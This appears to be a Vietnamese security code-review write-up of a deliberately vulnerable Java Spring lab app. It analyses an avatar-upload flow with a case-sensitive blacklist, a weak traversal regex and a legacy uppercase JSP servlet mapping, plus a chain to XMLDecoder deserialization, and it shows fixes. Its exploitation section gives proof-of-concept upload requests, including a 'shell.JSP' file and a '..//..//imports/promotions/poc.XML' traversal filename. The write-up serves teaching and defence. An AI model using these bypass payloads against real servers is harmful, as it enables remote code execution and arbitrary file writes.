---
header-includes:
  - \usepackage[utf8]{vietnam}
---

# FileUpload

***

## 1. Kết luận nhanh cho FileUpload

| Thuộc tính             | Giá trị                                                                                                                                |
| ---------------------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| Entry point            | `POST /api/v1/user/{id}/avatar`                                                                                                        |
| Quyền truy cập         | `ROLE_USER` hoặc `ROLE_ADMIN`, và user chỉ upload cho chính mình nếu không phải admin                                                  |
| Source chính           | `MultipartFile file`, optional multipart field `filename`, `MultipartFile#getOriginalFilename()`                                       |
| Sink chính             | `file.transferTo(destination.toFile())`                                                                                                |
| Stored path            | `uploads/avatars/<filename>`                                                                                                           |
| Owner-checked exposure | `/uploads/**` map tới `app.upload-dir`, anonymous bị chặn, user thường chỉ fetch được upload gắn với chính mình, admin xem được tất cả |
| Lỗi blacklist          | Chỉ chặn đuôi file bằng `filename.endsWith(...)`, case-sensitive, không whitelist MIME/extension ảnh                                   |
| Lỗi path traversal     | Dùng regex yếu để chặn `../`, sau đó `avatarDir.resolve(filename)` mà không `normalize()` + `startsWith(avatarDir)` trước khi ghi file |
| Legacy webroot/JSP     | `LegacyUploadWebResourceConfig` mount `app.upload-dir` vào Tomcat web resource root và đăng ký Jasper cho `*.jsp`, `*.JSP`             |
| Impact độc lập         | Upload avatar `.JSP` vào `/uploads/avatars/...` có thể được Jasper compile/execute sau khi owner rule cho phép request                 |
| Impact chained         | Path traversal có thể ghi file `.XML` sang `imports/promotions` để kích hoạt chain XXE/XMLDecoder                                      |

> **Nhận định:** đây là vulnerable flow hoàn chỉnh: attacker điều khiển filename/file content, backend dùng filename đó để build path ghi file, blacklist không đủ mạnh, traversal filter có bypass. Impact hiện tại có hai nhánh: `.JSP` được execute trực tiếp qua legacy Jasper mapping trong `/uploads/avatars`, hoặc traversal ghi `.XML` sang import directory để chain sang XMLDecoder.

***

## 2. Sơ đồ dữ liệu tổng quát



***

## 3. Hướng 1 - Truy vết từ sink đến source

### 3.1. Fuzz dangerous function để tìm sink candidate

Trước khi lần ngược về input, hướng sink -> source bắt đầu bằng bước fuzz/tìm kiếm các dangerous function. Mục tiêu là không đoán endpoint trước, mà quét các API có khả năng tạo tác động nguy hiểm rồi mới chọn sink thật để truy dataflow.

| Nhóm dangerous function | Pattern fuzz trong code                                                        | Candidate tìm thấy                                                                      | Kết luận                                                                |
| ----------------------- | ------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------- | ----------------------------------------------------------------------- |
| File write từ upload    | `transferTo`, `Files.write`, `Files.copy`, `Files.move`                        | `file.transferTo(destination.toFile())` trong `UserServiceImpl.uploadAvatar`            | Sink chính của FileUpload                                               |
| Path construction       | `Path.resolve`, `Paths.get`, `new File`                                        | `avatarDir.resolve(filename)`                                                           | Path phụ thuộc filename                                                 |
| Static exposure         | `addResourceHandler`, `requestMatchers("/uploads/**")`, `AuthorizationManager` | `WebConfig.addResourceHandlers`, `WebSecurityConfig`, `UploadOwnerAuthorizationManager` | File dưới upload root có HTTP route được bảo vệ bằng JWT và owner-check |
| Servlet resource mount  | `DirResourceSet`, `StandardRoot`, `addPreResources`                            | `LegacyUploadWebResourceConfig.mountUploadDirectory(...)`                               | Upload dir trở thành web resource root của embedded Tomcat              |
| JSP execution mapping   | `JspServlet`, `Wrapper`, `addServletMappingDecoded`, `*.JSP`                   | `LegacyUploadWebResourceConfig.addLegacyUppercaseJspMapping(...)`                       | `.JSP` upload có thể được Jasper compile/execute                        |
| Filename source helper  | `getOriginalFilename`, `@RequestParam("filename")`                             | `resolveUploadFilename(...)`, `UserController.uploadAvatar(...)`                        | Tìm được input điều khiển path                                          |

Trình tự phân tích sink -> source trong report này:

1. Fuzz dangerous function để lấy danh sách sink candidate.
2. Chọn sink có tác động thật: `transferTo(...)`.
3. Lần ngược biến path: `destination` <- `avatarDir.resolve(filename)`.
4. Lần ngược sanitizer: `rejectRelativeParentPath(...)`, `isBlockedByBlacklist(...)`.
5. Lần ngược source: `requestedFilename` hoặc `file.getOriginalFilename()`.
6. Xác nhận entry point: `POST /api/v1/user/{id}/avatar`.
7. Xác nhận exposure sau ghi: `/uploads/**` cần JWT và qua `UploadOwnerAuthorizationManager` trước khi static resource hoặc JSP servlet xử lý request.
8. Xác nhận impact độc lập: `.JSP` bypass blacklist case-sensitive và khớp `legacyJspServlet` mapping.

### 3.2. Bắt đầu từ sink ghi file

**File:** `src/main/java/org/example/serviceImpl/UserServiceImpl.java`

```java
Path avatarDir = Paths.get(uploadDir, "avatars").toAbsolutePath().normalize();
Files.createDirectories(avatarDir);

String filename = resolveUploadFilename(file, requestedFilename);

rejectRelativeParentPath(filename, "Filename cannot contain ../");
if (isBlockedByBlacklist(filename)) {
    throw new IllegalArgumentException("This file type is not allowed");
}

Path destination = avatarDir.resolve(filename);       // [SINK-ADJACENT]
if (destination.getParent() != null) {
    Files.createDirectories(destination.getParent());  // [PATH WRITE PREP]
}

file.transferTo(destination.toFile());                // [SINK]
user.setAvatarUrl("/uploads/avatars/" + filename);    // [STORED OUTPUT]
```

| Dòng phân tích                | Ý nghĩa                                                                                                            |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| `avatarDir`                   | Base directory hợp lệ được normalize: `uploads/avatars` hoặc `/app/uploads/avatars` trong Docker                   |
| `filename`                    | Không phải server-generated; đến từ request hoặc `OriginalFilename`                                                |
| `rejectRelativeParentPath`    | Có kiểm tra traversal nhưng regex yếu (`Pattern.compile("(^\|/)\\.\\./(?!/)")`)                                    |
| `isBlockedByBlacklist`        | Chỉ blacklist một số đuôi nguy hiểm, không whitelist ảnh (`".exe", ".bat", ".cmd", ".sh", ".jar", ".jsp", ".xml"`) |
| `avatarDir.resolve(filename)` | Nếu `filename` chứa traversal/absolute path, path đích bị attacker ảnh hưởng                                       |
| `transferTo(...)`             | Sink ghi file thật lên filesystem                                                                                  |
| `setAvatarUrl(...)`           | Lưu URL dựa trên filename không chuẩn hóa                                                                          |

### 3.3. Kiểm tra path construction

```java
Path destination = avatarDir.resolve(filename);
```

Điểm cần đánh dấu khi review:

- Không gọi `normalize()` trên `destination` trước khi ghi file.
- Không kiểm tra `destination.startsWith(avatarDir)`.
- Không ép filename về basename bằng `Paths.get(filename).getFileName()`.
- Không tự sinh tên file server-side.
- Không giới hạn thư mục con hợp lệ dưới `avatars`.

Ví dụ logic fix đã được comment ngay dưới sink:

```java
// File: src/main/java/org/example/serviceImpl/UserServiceImpl.java
String extension = getSafeImageExtension(contentType);
String safeFilename = UUID.randomUUID() + extension;
Path destination = avatarDir.resolve(safeFilename).normalize();
if (!destination.startsWith(avatarDir)) {
    throw new IllegalArgumentException("Invalid upload path");
}

file.transferTo(destination.toFile());
user.setAvatarUrl("/uploads/avatars/" + safeFilename);
```

### 3.4. Truy ngược validation blacklist

```java
private static final Set<String> BLOCKED_FILE_EXTENSIONS = Set.of(
        ".exe",
        ".bat",
        ".cmd",
        ".sh",
        ".jar",
        ".jsp",
        ".xml");

private boolean isBlockedByBlacklist(String filename) {
    return BLOCKED_FILE_EXTENSIONS.stream().anyMatch(filename::endsWith);
}
```

| Vấn đề                            | Vì sao nguy hiểm                                                                                                   |
| --------------------------------- | ------------------------------------------------------------------------------------------------------------------ |
| Blacklist thay vì whitelist       | File không nằm trong danh sách chặn vẫn được ghi, ví dụ `.html`, `.svg`, `.php`, `.phtml`, hoặc định dạng polyglot |
| `endsWith` case-sensitive         | `.JSP`, `.Xml`, `.Sh` không khớp blacklist hiện tại                                                                |
| Không kiểm tra MIME thật          | `file.getContentType()` không được dùng; magic bytes cũng không được kiểm tra                                      |
| Không tách extension cuối an toàn | Tên kiểu nhiều đuôi có thể bypass filter nếu đuôi cuối không bị blacklist                                          |
| Không đổi tên file                | Attacker giữ nguyên tên file và cấu trúc path                                                                      |

### 3.5. Truy ngược validation path traversal

```java
private static final Pattern OBVIOUS_PARENT_TRAVERSAL =
        Pattern.compile("(^|/)\\.\\./(?!/)");

private void rejectRelativeParentPath(String value, String message) {
    if (OBVIOUS_PARENT_TRAVERSAL.matcher(value).find()) {
        throw new IllegalArgumentException(message);
    }
}
```

| Dấu hiệu                     | Kết luận                                                              |
| ---------------------------- | --------------------------------------------------------------------- |
| Regex chỉ nhìn dấu `/`       | Không xử lý separator khác trong một số môi trường                    |
| Pattern có `(?!/)` sau `../` | Chặn `../file`, nhưng có thể bỏ sót dạng separator lặp như `..//file` |
| Không normalize sau filter   | Filesystem vẫn có thể resolve parent segment khi ghi                  |
| Không so sánh với root thật  | Không có invariant `finalPath.startsWith(avatarDir)`                  |

Comment fix hiện có trong code đã nêu đúng hướng:

```java
// File: src/main/java/org/example/serviceImpl/UserServiceImpl.java
private static final Pattern OBVIOUS_PARENT_TRAVERSAL =
        Pattern.compile("(^|[\\\\/])\\.\\.(?:[\\\\/]+|$)");
```

Tuy nhiên, regex chỉ nên là lớp phụ. Fix chính vẫn là:

```java
// File: src/main/java/org/example/serviceImpl/UserServiceImpl.java
Path destination = avatarDir.resolve(safeFilename).normalize();
if (!destination.startsWith(avatarDir)) {
    throw new IllegalArgumentException("Invalid upload path");
}
```

### 3.6. Truy ngược source filename

```java
private String resolveUploadFilename(MultipartFile file, String requestedFilename) {
    if (requestedFilename != null && !requestedFilename.isBlank()) {
        return requestedFilename.trim();       // [SOURCE-1] multipart field "filename"
    }
    return file.getOriginalFilename();         // [SOURCE-2] client-controlled original filename
}
```

| Source                       | Điều khiển bởi ai                     | Ghi chú                                            |
| ---------------------------- | ------------------------------------- | -------------------------------------------------- |
| `requestedFilename`          | Client gửi multipart field `filename` | UI hiện tại không gửi, nhưng API backend vẫn nhận  |
| `file.getOriginalFilename()` | Client multipart upload               | Không đáng tin; có thể chứa tên lạ/path tùy client |

### 3.7. Truy ngược controller endpoint

**File:** `src/main/java/org/example/controller/UserController.java`

```java
@PostMapping(value = "/{id}/avatar", consumes = MediaType.MULTIPART_FORM_DATA_VALUE)
public ResponseEntity<?> uploadAvatar(@PathVariable Integer id,
                                      @RequestParam("file") MultipartFile file,
                                      @RequestParam(value = "filename", required = false) String filename,
                                      Authentication authentication) {
    try {
        if (!canAccessUser(authentication, id)) {
            return ResponseEntity.status(403).body("Forbidden");
        }
        User user = userService.uploadAvatar(id, file, filename);
        return ResponseEntity.ok().body(user);
    }
}
```

| Điểm đọc | Kết luận |
| --- | --- |
| `@RequestParam("file") MultipartFile file` | Source file content |
| `@RequestParam(value = "filename", required = false)` | Source filename trực tiếp, dù UI không dùng |
| `canAccessUser(authentication, id)` | Giới hạn user upload avatar của chính mình hoặc admin |
| `userService.uploadAvatar(...)` | Data đi vào service sink không qua normalize/allowlist ở controller |

### 3.8. Truy ngược owner-checked exposure và JSP execution

**File:** `src/main/java/org/example/config/WebConfig.java`

```java
Path uploadPath = Paths.get(uploadDir).toAbsolutePath().normalize();
registry.addResourceHandler("/uploads/**")
        .addResourceLocations(uploadPath.toUri().toString());
```

`WebConfig` chứng minh file dưới `app.upload-dir` có HTTP route bình thường. Với ảnh/QR thông thường, route này trả nội dung tĩnh sau khi đi qua security filter.

**File:** `src/main/java/org/example/config/LegacyUploadWebResourceConfig.java`

```java
@Configuration
@ConditionalOnProperty(
        prefix = "app.legacy-upload-webroot",
        name = "enabled",
        havingValue = "true",
        matchIfMissing = true)
public class LegacyUploadWebResourceConfig {
    @Value("${app.upload-dir:uploads}")
    private String uploadDir;

    @Value("${app.legacy-upload-webroot.path:/uploads}")
    private String uploadWebPath;
```

```java
resources.addPreResources(new DirResourceSet(
        resources,
        normalizeContextPath(uploadWebPath),
        uploadPath.toString(),
        "/"));
```

`DirResourceSet` làm `app.upload-dir` trở thành một phần web resource root của embedded Tomcat. Vì `app.legacy-upload-webroot.path` mặc định là `/uploads`, file thực tế trong `uploads/avatars/shell.JSP` cũng tồn tại dưới servlet path `/uploads/avatars/shell.JSP`.

**File:** `src/main/java/org/example/config/LegacyUploadWebResourceConfig.java`

```java
private void addLegacyUppercaseJspMapping(Context context) {
    if (context.findChild(LEGACY_JSP_SERVLET_NAME) == null) {
        Wrapper jspServlet = context.createWrapper();
        jspServlet.setName(LEGACY_JSP_SERVLET_NAME);
        jspServlet.setServletClass(JspServlet.class.getName());
        jspServlet.setLoadOnStartup(3);
        jspServlet.addInitParameter("fork", "false");
        jspServlet.addInitParameter("xpoweredBy", "false");
        context.addChild(jspServlet);
    }

    context.addServletMappingDecoded("*.JSP", LEGACY_JSP_SERVLET_NAME);
}
```

Điểm then chốt của impact độc lập:

| Mảnh ghép | Vai trò |
| --- | --- |
| `tomcat-embed-jasper` trong `pom.xml` | Cung cấp Jasper để compile JSP trong embedded Tomcat |
| `DirResourceSet(..., "/uploads", uploadPath, "/")` | Đưa upload directory vào servlet resource lookup |
| `Wrapper` + `context.addServletMappingDecoded("*.JSP", ...)` | Route file `.JSP` bypass sang JSP servlet |
| `filename.endsWith(".jsp")` case-sensitive | Chặn `shell.jsp` nhưng bỏ lọt `shell.JSP` |
| `user.setAvatarUrl("/uploads/avatars/" + filename)` | Lưu URL để owner rule công nhận đây là avatar của user |

Như vậy, với direct JSP impact, sink -> source không dừng ở `WebConfig.addResourceHandler(...)`. Reviewer phải tiếp tục fuzz `JspServlet`, `Wrapper`, `addServletMappingDecoded`, `DirResourceSet`, `addPreResources`, và dependency `tomcat-embed-jasper` để xác nhận file upload có thể được xử lý như executable servlet resource.

**File:** `src/main/java/org/example/security/WebSecurityConfig.java`

```java
.requestMatchers(
        antMatcher("/v3/**"),
        antMatcher("/swagger-ui/**"),
        antMatcher("/swagger-ui"),
        antMatcher("/swagger-ui.html")).permitAll()
.requestMatchers(antMatcher("/uploads/**")).access(uploadOwnerAuthorizationManager)
```

**File:** `src/main/java/org/example/security/UploadOwnerAuthorizationManager.java`

```java
return userRepository.existsByIdAndAvatarUrlAndIsDeletedFalse(userId, uploadUrl)
        || bookingOrderRepository.existsByUserIdAndQrCodeAndIsDeletedFalse(userId, uploadUrl)
        || transactionRepository.existsByUserIdAndQrCodeAndIsDeletedFalse(userId, uploadUrl)
        || isCurrentUserProfileQr(userDetails, uploadUrl);
```

**File:** `frontend/src/services/api.js`

```js
export const getProtectedUpload = (url) => {
  const token = localStorage.getItem('token');
  return axios.get(resolveUploadUrl(url), {
    responseType: 'blob',
    headers: token ? { Authorization: `Bearer ${token}` } : {},
  });
};
```

**File:** `frontend/src/hooks/useProtectedUploadUrl.js`

```js
return url.startsWith('/uploads/') || url.includes('/uploads/');
```

| Ý nghĩa                                | Tác động |
| -------------------------------------- | -------- |
| `/uploads/**` map tới `app.upload-dir` | File ghi dưới upload root vẫn có HTTP route tĩnh |
| `LegacyUploadWebResourceConfig` mount cùng upload root vào Tomcat | File dưới upload root cũng có thể được servlet container lookup |
| `legacyJspServlet` map `*.JSP` | `.JSP` không chỉ được tải xuống; nó có thể được compile/execute |
| `/uploads/**` dùng `UploadOwnerAuthorizationManager` | Anonymous bị chặn, user thường cần sở hữu upload URL |
| Owner avatar | Cho phép khi `User.avatarUrl` khớp upload URL của chính user |
| Owner booking QR | Cho phép khi `BookingOrder.qrCode` hoặc `Transaction.qrCode` khớp và thuộc chính user |
| Profile member QR | Cho phép QR profile động suy ra từ email hiện tại |
| Admin | Cho phép đọc mọi upload để không làm vỡ màn quản trị |
| Frontend dùng `getProtectedUpload(...)` | Avatar/QR dưới `/uploads/**` được fetch bằng JWT rồi render qua blob URL |
| `avatarUrl` lưu relative URL | DB vẫn lưu đường dẫn dựa trên filename không chuẩn hóa |

***

## 4. Hướng 2 - Truy vết từ source đến sink

### 4.1. Source bình thường từ UI profile

**File:** `frontend/src/pages/Profile.jsx`

```jsx
const handleAvatarChange = async (e) => {
  const file = e.target.files?.[0];       // [SOURCE] file từ input browser
  e.target.value = '';

  if (!file) {
    return;
  }
  if (file.size > 5 * 1024 * 1024) {      // [CLIENT CHECK] chỉ size, không đủ bảo vệ server
    toast.error('Ảnh đại diện không được vượt quá 5MB');
    return;
  }

  const response = await uploadUserAvatar(user.id, file);
};

<input
  type="file"
  className="hidden"
  onChange={handleAvatarChange}
  disabled={avatarUploading}
/>
```

| Điểm đọc                    | Kết luận                                                                    |
| --------------------------- | --------------------------------------------------------------------------- |
| `type="file"`               | Người dùng chọn file ở browser                                              |
| Check size ở client         | Có thể bypass bằng request trực tiếp; server chỉ dựa vào multipart max-size |
| Không có `accept="image/*"` | UI không tự hạn chế ảnh, nhưng kể cả có cũng không phải boundary bảo mật    |

### 4.2. Source đi qua API client

**File:** `frontend/src/services/api.js`

```js
export const uploadUserAvatar = (userId, file) => {
  const formData = new FormData();
  formData.append('file', file);           // [SOURCE] multipart part "file"

  return api.post(`/user/${userId}/avatar`, formData);
};
```

| Điểm đọc                        | Kết luận                                             |
| ------------------------------- | ---------------------------------------------------- |
| `FormData.append('file', file)` | Browser gửi filename mặc định của file               |
| `api` tự gắn JWT                | Endpoint yêu cầu auth                                |

### 4.3. Source tới controller binding

```java
@RequestParam("file") MultipartFile file,
@RequestParam(value = "filename", required = false) String filename
```

Tại đây có hai nguồn input:
1. `file`: nội dung file và original filename.
2. `filename`: field multipart tùy ý nếu attacker gửi request thủ công.

### 4.4. Controller chuyển nguyên input xuống service

```java
User user = userService.uploadAvatar(id, file, filename);
```

Không có bước nào ở controller để:

- ép filename về basename;
- whitelist MIME/extension;
- sinh tên file mới;
- normalize path;
- chặn absolute path;
- kiểm tra final path còn nằm trong `avatarDir`.

### 4.5. Service nhận source và quyết định filename

```java
String filename = resolveUploadFilename(file, requestedFilename);
```

Luồng rẽ nhánh:

| Nhánh | Điều kiện | Filename dùng để ghi |
| --- | --- | --- |
| `requestedFilename` | Multipart có field `filename` không rỗng | `requestedFilename.trim()` |
| `OriginalFilename` | Không có field `filename` | `file.getOriginalFilename()` |

### 4.6. Validation không cắt được dữ liệu nguy hiểm

```java
rejectRelativeParentPath(filename, "Filename cannot contain ../");
if (isBlockedByBlacklist(filename)) {
    throw new IllegalArgumentException("This file type is not allowed");
}
```

| Dạng kiểm tra           | Có                                                                 | Thiếu                                                          |
| ----------------------- | ------------------------------------------------------------------ | -------------------------------------------------------------- |
| Chặn một vài extension  | Có blacklist `.exe`, `.bat`, `.cmd`, `.sh`, `.jar`, `.jsp`, `.xml` | Không whitelist ảnh                                            |
| Chặn traversal đơn giản | Có regex cho một số dạng `../`                                     | Không normalize, không `startsWith`, bypass được separator lặp |
| Chặn content độc hại    | Không                                                              | Không kiểm tra MIME thật/magic bytes                           |
| Chặn filename đặc biệt  | Không đầy đủ                                                       | Không reject absolute path, control chars, reserved names      |

### 4.7. Input chạm sink

```java
Path destination = avatarDir.resolve(filename);
file.transferTo(destination.toFile());
```

Từ góc nhìn source-to-sink, đây là điểm xác nhận lỗ hổng:

- Source `filename` vẫn giữ quyền điều khiển path.
- Sink `transferTo` nhận `destination` bị ảnh hưởng bởi source.
- Không có sanitizer mạnh nằm giữa source và sink.

### 4.8. Output được lưu và serve qua protected upload route

```java
user.setAvatarUrl("/uploads/avatars/" + filename);
return userRepository.save(user);
```

Sau ghi file:

- DB lưu `avatarUrl`.
- Profile render avatar bằng URL đó.
- Static route `/uploads/**` hiện yêu cầu JWT và owner-check; file nằm dưới `app.upload-dir` không còn public anonymous và user thường chỉ lấy được URL gắn với chính mình.
- Nếu filename là `.JSP`, cùng URL đó còn khớp mapping `legacyJspServlet`.
- Vì `LegacyUploadWebResourceConfig` mount upload dir vào Tomcat web root, `/uploads/avatars/<name>.JSP` không còn là inert static file mà có thể được Jasper compile/execute.

### 4.9. Source tới JSP execution sink



Điểm khác với chain XMLDecoder:

| Nhánh | Cần traversal? | Cần scheduled job? | Sink cuối |
| --- | --- | --- | --- |
| Direct JSP execution | Không bắt buộc; upload nằm ngay trong `/avatars` | Không | `JspServlet`/Jasper compile JSP |
| FileUpload -> XMLDecoder | Có, để ghi sang `imports/promotions` | Có | `XMLDecoder.readObject()` |

***

## 5. Các biến thể phát hiện chính

### 5.1. Blacklist bypass

| Bước review                   | Dấu hiệu                                                              |
| ----------------------------- | --------------------------------------------------------------------- |
| Tìm extension policy          | `BLOCKED_FILE_EXTENSIONS` là blacklist                                |
| Tìm allowlist ảnh             | Không có `ALLOWED_IMAGE_TYPES`, không có `getSafeImageExtension` thật |
| Tìm server-generated filename | Không có `UUID.randomUUID()` trong code chạy thật                     |
| Tìm content validation        | Không kiểm tra MIME/magic bytes                                       |

Kết luận phát hiện:

```text
Nếu chỉ blacklist một số đuôi và vẫn cho client quyết định filename,
thì reviewer đánh dấu FileUpload blacklist bypass.
```

### 5.2. Path traversal

| Bước review | Dấu hiệu |
| --- | --- |
| Tìm nơi ghép path | `avatarDir.resolve(filename)` |
| Tìm sanitizer | Regex `OBVIOUS_PARENT_TRAVERSAL` |
| Kiểm tra normalize | Không có `destination.normalize()` trước `transferTo` |
| Kiểm tra boundary | Không có `destination.startsWith(avatarDir)` |
| Kiểm tra absolute path | Không reject filename absolute |
| Kiểm tra parent mkdir | `Files.createDirectories(destination.getParent())` có thể chuẩn bị thư mục theo path attacker chọn |

Kết luận phát hiện:

```text
Nếu attacker-controlled filename đi vào Path.resolve(...) rồi transferTo(...)
mà không có normalize + startsWith(baseDir), đánh dấu arbitrary file write/path traversal.
```

### 5.3. Executable upload qua legacy JSP mapping

| Bước review | Dấu hiệu |
| --- | --- |
| Tìm JSP runtime | `tomcat-embed-jasper` có trong `pom.xml` |
| Tìm servlet mapping | `Wrapper` + `context.addServletMappingDecoded("*.JSP", "legacyJspServlet")` |
| Tìm webroot mount | `DirResourceSet` mount `app.upload-dir` vào `/uploads` |
| Tìm blacklist bypass | `filename.endsWith(".jsp")` case-sensitive nên `.JSP` lọt |
| Tìm owner path | `user.setAvatarUrl("/uploads/avatars/" + filename)` giúp owner rule cho phép user fetch avatar của chính mình |

Kết luận phát hiện:

```text
Nếu user-writable upload dir được mount vào servlet web root và JSP servlet
được map tới extension có thể bypass blacklist, đánh dấu executable upload.
```

***

## 6. Khai thác lỗ hổng

### 6.1. Direct impact: upload `.JSP` vào `/avatars`

Payload JSP tối giản để chứng minh server-side execution:

```jsp
<%-- PoC only: prove JSP execution without command execution --%>
weblab-jsp-ok:<%= System.getProperty("java.version") %>
```

Request upload:

```http
POST /api/v1/user/1/avatar HTTP/1.1
Authorization: Bearer <JWT_OF_USER_1>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqJRfwZA29YbZZTwf

------WebKitFormBoundaryqJRfwZA29YbZZTwf
Content-Disposition: form-data; name="filename"

shell.JSP
------WebKitFormBoundaryqJRfwZA29YbZZTwf
Content-Disposition: form-data; name="file"; filename="shell.JSP"
Content-Type: image/jpeg

<%-- PoC only: prove JSP execution without command execution --%>
weblab-jsp-ok:<%= System.getProperty("java.version") %>
------WebKitFormBoundaryqJRfwZA29YbZZTwf--
```

Request trigger:

```http
GET /uploads/avatars/shell.JSP HTTP/1.1
Authorization: Bearer <JWT_OF_USER_1>
```

Kỳ vọng quan sát:

| Điều kiện                             | Kết quả                                           |
| ------------------------------------- | ------------------------------------------------- |
| Upload thành công                     | `User.avatarUrl` lưu `/uploads/avatars/shell.JSP` |
| JSP được execute                      | Response có chuỗi `weblab-jsp-ok:<java-version>`  |

### 6.2. Chained impact: traversal sang XMLDecoder import directory

Thay đổi trực tiếp field `filename` sử dụng tên file có extension bypass blacklist và chèn `..//` để bypass regex cho phép khai thác path traversal:

```http
------WebKitFormBoundaryqJRfwZA29YbZZTwf
Content-Disposition: form-data; name="filename"

..//..//imports/promotions/poc.XML
------WebKitFormBoundaryqJRfwZA29YbZZTwf
Content-Disposition: form-data; name="file"; filename="avatar.jpg"
Content-Type: image/jpeg

<java version="1.7.0_21" class="java.beans.XMLDecoder">
    ...
</java>


------WebKitFormBoundaryqJRfwZA29YbZZTwf--
```

***
## 7. Tổng kết

FileUpload flow này không chỉ là "cho upload file sai đuôi". Điểm nguy hiểm nằm ở tổ hợp:

1. Client kiểm soát filename;
2. Blacklist yếu;
3. Traversal filter yếu;
4. `Path.resolve(filename)` không kiểm tra boundary;
5. `transferTo` ghi file thật;
6. `/uploads/**` hiện được protect bằng owner-check: admin xem được mọi upload, user thường chỉ xem upload URL gắn với chính mình;
7. `LegacyUploadWebResourceConfig` mount upload dir vào Tomcat web root;
8. `legacyJspServlet` map uppercase `*.JSP`, biến blacklist bypass từ "ghi file lạ" thành executable upload.

Tóm lại:

| Impact | Điều kiện chính | Kết quả |
| --- | --- | --- |
| Direct JSP execution | Upload `shell.JSP` vào `/avatars`, sau đó fetch bằng JWT owner/admin | Jasper compile/execute JSP |
| Chained XMLDecoder RCE | Upload traversal `..//..//imports/promotions/poc.XML` | Scheduler đọc file và chạm `XMLDecoder.readObject()` |


# XXE (XMLDecoder RCE)

***


## 1. Kết luận nhanh cho XXE XMLDecoder

| Hạng mục | Giá trị |
|---|---|
| Module nghiệp vụ | Admin import promotion XML |
| Direct source | `POST /api/v1/promotion/import-xml` với multipart field `file` |
| Chained source | FileUpload avatar có thể ghi traversal vào `imports/promotions/*.XML` |
| Sink chính | `new XMLDecoder(...).readObject()` |
| Trigger | Scheduled job `importPromotionXmlFiles()` quét thư mục import theo chu kỳ |
| Quyền trực tiếp | `ROLE_ADMIN` trên endpoint import XML |
| Quyền khi chain FileUpload | User tự upload avatar của mình, nếu filename bypass được blacklist/traversal và ghi được sang import dir |
| Impact | Java object deserialization qua XMLDecoder, có thể gọi method/constructor ngoài ý định trước khi type-check `Promotion` |
| File quan trọng | `PromotionController`, `PromotionServiceImpl`, `WebSecurityConfig`, `UserServiceImpl` |

> **Nhận định:** Sink thực tế không phải `DocumentBuilderFactory`/external entity expansion truyền thống. Điểm nguy hiểm nằm ở `java.beans.XMLDecoder`: XML được coi như object graph Java và `readObject()` có thể kích hoạt method invocation. Vì vậy classification chính xác trong code review là **XMLDecoder unsafe deserialization/RCE**, đặt dưới nhóm XXE/XML attack surface.

***

## 2. Bản đồ flow tổng quan



Điểm nối với FileUpload nằm ở filesystem, không nằm ở HTTP read-back. Owner-check cho `/uploads/**` chỉ bảo vệ việc đọc file upload qua web route; chain này lợi dụng write sink để đặt XML vào thư mục `imports/promotions`, sau đó scheduled job đọc trực tiếp từ disk.

***

## 3. Sink -> Source

### 3.1. Fuzz dangerous function để tìm sink candidate

